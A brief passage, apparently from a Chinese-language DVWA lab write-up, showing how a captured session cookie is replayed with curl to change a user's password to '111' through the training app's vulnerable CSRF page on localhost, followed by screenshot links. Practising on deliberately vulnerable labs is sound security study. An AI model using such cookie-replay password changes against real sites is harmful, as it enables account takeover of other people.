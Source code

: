 接下來就可以利用取得的 cookie 來模擬更改密碼的行為，將密碼改成 111

```bash
curl -v -c cookies.txt -b cookies.txt "http://localhost:8086/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#"
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2027.png)

測試 ok

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2028.png)

